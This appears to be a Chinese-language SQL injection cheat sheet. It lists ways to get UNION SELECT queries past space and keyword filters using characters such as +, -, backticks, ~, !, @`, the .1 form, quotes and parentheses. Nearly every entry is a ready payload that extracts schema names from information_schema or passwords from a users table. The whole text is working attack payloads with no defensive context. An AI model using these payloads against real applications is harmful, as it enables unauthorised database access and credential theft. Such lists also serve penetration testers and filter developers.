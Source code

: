 **+号**

```sql
select * from users where user_id=1e8union(select+1,(select schema_name from information_schema.schemata limit 1));
union(select+1,(information_schema));
```

**-号**

```sql
select * from users where user_id=1e8union(select-1,(select schema_name from information_schema.schemata limit 1));
```

**`号**

```sql
select * from users where user_id=1e8union(select 1,(select `schema_name` from information_schema.schemata limit 1));
```

**~号**

```sql
select * from users where user_id=1e8union(select~1,(select schema_name from information_schema.schemata limit 1));
```

**!号**

```sql
select * from users where user_id=1e8union(select!1,(select schema_name from information_schema.schemata limit 1));
```

**@`形式**

```sql
select * from users where user_id=1e8union(select@`1`,(select schema_name from information_schema.schemata limit 1));
```

**点号.1**

```sql
select username from users where id=.1union/*.1*/select password from users;
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyy2o3ffeyj20md08n3yp.jpg)

**单引号双引号**

```sql
select username from users where id=.1union/*.1*/select"1",password from users;
```

**括号select(1)**

```sql
select * from users where user_id=1e8union(select 1,(select(schema_name)from information_schema.schemata limit 1));
```
